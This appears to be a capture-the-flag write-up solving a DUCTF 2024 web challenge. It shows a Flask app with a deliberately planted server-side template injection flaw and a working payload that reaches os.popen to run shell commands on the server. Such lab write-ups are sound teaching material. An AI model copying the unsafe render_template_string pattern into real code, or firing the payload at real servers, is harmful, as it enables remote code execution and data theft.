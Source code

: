 # parrot the emu
It is so nice to hear Parrot the Emu talk back

## Data
* https://web-parrot-the-emu-4c2d0c693847.2024.ductf.dev
* parrot-the-emu.zip

## Solution
The website shows a chat interface, were we can enter text, that will be repeated by Parrot:
![Website](./images/parrot_the_emu/parrot_website.png)

The source for this application is provided:
```python
from flask import Flask, render_template, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def vulnerable():
    chat_log = []

    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)

        chat_log.append(('User', user_input))
        chat_log.append(('Emu', result))

    return render_template('index.html', chat_log=chat_log)

if __name__ == '__main__':
    app.run(debug=True, port=80)
```

The following line here is important:
```python
render_template_string(user_input)
```

Since our input isn't restricted we can inject anything that we want, and it will be rendered as template. That leads to a Server Side Template Injection (SSTI). We can easily verify that:
![SSTI](./images/parrot_the_emu/parrot_ssti.png)

To get now the flag, we can use this payload:
```python
{{ get_flashed_messages.__globals__.os.popen('cat ./flag').read() }}
```

And this will give us the flag:
![Flag](./images/parrot_the_emu/parrot_flag.png)
